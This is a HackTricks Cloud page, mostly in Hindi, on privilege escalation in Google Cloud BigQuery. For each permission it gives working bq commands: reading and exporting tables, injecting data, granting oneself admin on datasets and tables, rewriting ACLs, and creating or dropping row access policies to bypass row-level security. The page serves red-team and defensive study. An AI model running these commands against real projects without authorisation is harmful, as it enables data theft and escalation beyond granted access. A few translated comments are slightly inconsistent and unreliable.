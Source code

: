 # GCP - BigQuery Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## BigQuery

BigQuery के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-bigquery-enum.md" %}
[gcp-bigquery-enum.md](../gcp-services/gcp-bigquery-enum.md)
{% endcontent-ref %}

### Read Table

BigQuery तालिका के अंदर संग्रहीत जानकारी को पढ़ने से **संवेदनशील जानकारी** मिलना संभव हो सकता है। जानकारी तक पहुँचने के लिए आवश्यक अनुमति **`bigquery.tables.get`**, **`bigquery.jobs.create`** और **`bigquery.tables.getData`** है:
```bash
bq head <dataset>.<table>
bq query --nouse_legacy_sql 'SELECT * FROM `<proj>.<dataset>.<table-name>` LIMIT 1000'
```
### डेटा निर्यात करें

यह डेटा तक पहुँचने का एक और तरीका है। **इसे एक क्लाउड स्टोरेज बकेट में निर्यात करें** और **जानकारी के साथ फ़ाइलें डाउनलोड करें**।\
इस क्रिया को करने के लिए निम्नलिखित अनुमतियों की आवश्यकता है: **`bigquery.tables.export`**, **`bigquery.jobs.create`** और **`storage.objects.create`**।
```bash
bq extract <dataset>.<table> "gs://<bucket>/table*.csv"
```
### Insert data

यह संभव है कि **कुछ विश्वसनीय डेटा** को Bigquery तालिका में **किसी अन्य स्थान में एक कमजोरियों का लाभ उठाने के लिए** पेश किया जाए। यह **`bigquery.tables.get`**, **`bigquery.tables.updateData`** और **`bigquery.jobs.create`** अनुमतियों के साथ आसानी से किया जा सकता है:

{% code overflow="wrap" %}
```bash
# Via query
bq query --nouse_legacy_sql 'INSERT INTO `<proj>.<dataset>.<table-name>` (rank, refresh_date, dma_name, dma_id, term, week, score) VALUES (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2019-10-13", 62), (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2020-05-24", 67)'

# Via insert param
bq insert dataset.table /tmp/mydata.json
```
{% endcode %}

### `bigquery.datasets.setIamPolicy`

एक हमलावर इस विशेषाधिकार का दुरुपयोग करके **अपने लिए और अधिक अनुमतियाँ** एक BigQuery डेटासेट पर दे सकता है:
```bash
# For this you also need bigquery.tables.getIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>

# use the set-iam-policy if you don't have bigquery.tables.getIamPolicy
```
### `bigquery.datasets.update`, (`bigquery.datasets.get`)

बस यह अनुमति **आपकी पहुँच को एक BigQuery डेटासेट पर अपडेट करने की अनुमति देती है, ACLs को संशोधित करके** जो यह दर्शाती हैं कि कौन इसे एक्सेस कर सकता है:
```bash
# Download current permissions, reqires bigquery.datasets.get
bq show --format=prettyjson <proj>:<dataset> > acl.json
## Give permissions to the desired user
bq update --source acl.json <proj>:<dataset>
## Read it with
bq head $PROJECT_ID:<dataset>.<table>
```
### `bigquery.tables.setIamPolicy`

एक हमलावर इस विशेषाधिकार का दुरुपयोग करके **अपने लिए और अधिक अनुमतियाँ** एक BigQuery तालिका पर दे सकता है:
```bash
# For this you also need bigquery.tables.setIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>.<table>

# use the set-iam-policy if you don't have bigquery.tables.setIamPolicy
```
### `bigquery.rowAccessPolicies.update`, `bigquery.rowAccessPolicies.setIamPolicy`, `bigquery.tables.getData`, `bigquery.jobs.create`

दस्तावेज़ों के अनुसार, उल्लेखित अनुमतियों के साथ **एक पंक्ति नीति को अपडेट करना संभव है।**\
हालांकि, **cli `bq` का उपयोग करते समय** आपको कुछ और चाहिए: **`bigquery.rowAccessPolicies.create`**, **`bigquery.tables.get`**.

{% code overflow="wrap" %}
```bash
bq query --nouse_legacy_sql 'CREATE OR REPLACE ROW ACCESS POLICY <filter_id> ON `<proj>.<dataset-name>.<table-name>` GRANT TO ("<user:user@email.xyz>") FILTER USING (term = "Cfba");' # A example filter was used
```
{% endcode %}

यह संभव है कि पंक्ति नीतियों की गणना के आउटपुट में फ़िल्टर आईडी को पाया जा सके। उदाहरण:
```bash
bq ls --row_access_policies <proj>:<dataset>.<table>

Id        Filter Predicate            Grantees              Creation Time    Last Modified Time
------------- ------------------ ----------------------------- ----------------- --------------------
apac_filter   term = "Cfba"      user:asd@hacktricks.xyz   21 Jan 23:32:09   21 Jan 23:32:09
```
यदि आपके पास **`bigquery.rowAccessPolicies.delete`** है बजाय `bigquery.rowAccessPolicies.update` के, तो आप नीति को बस हटा भी सकते हैं:

{% code overflow="wrap" %}
```bash
# Remove one
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICY <policy_id> ON `<proj>.<dataset-name>.<table-name>`;'

# Remove all (if it's the last row policy you need to use this
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICIES ON `<proj>.<dataset-name>.<table-name>`;'
```
{% endcode %}

{% hint style="danger" %}
पंक्ति पहुंच नीतियों को बायपास करने का एक और संभावित विकल्प प्रतिबंधित डेटा के मान को बस बदलना होगा। यदि आप केवल तब देख सकते हैं जब `term` `Cfba` है, तो बस तालिका के सभी रिकॉर्ड को `term = "Cfba"` में संशोधित करें। हालांकि, यह bigquery द्वारा रोका गया है।
{% endhint %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
